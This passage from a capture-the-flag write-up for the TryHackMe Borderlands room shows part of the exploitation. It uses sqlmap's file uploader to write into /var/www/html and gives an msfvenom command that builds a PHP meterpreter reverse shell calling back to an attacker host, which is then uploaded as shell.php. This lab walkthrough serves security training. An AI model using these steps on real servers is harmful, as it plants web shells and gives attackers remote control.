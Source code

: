 Enter /var/www/html as custom directory.

![sqlmap final](/assets/images/THM/2020-08-13-borderlands/19.png)

Copy the sqlmap file uploader URL and visit the site.

![uploader](/assets/images/THM/2020-08-13-borderlands/20.png)

We are going to generate a reverse shell using msfvenom.

```
msfvenom -p php/meterpreter/reverse_tcp lhost=<tunnel IP> lport=4445 -f raw
```

![msfvenom](/assets/images/THM/2020-08-13-borderlands/21.png)

Copy the text (pink highlighted) and save it as shell.php. After that, upload the shell.php using the sqlmap uploader.

![upload it](/assets/images/THM/2020-08-13-borderlands/22.png)
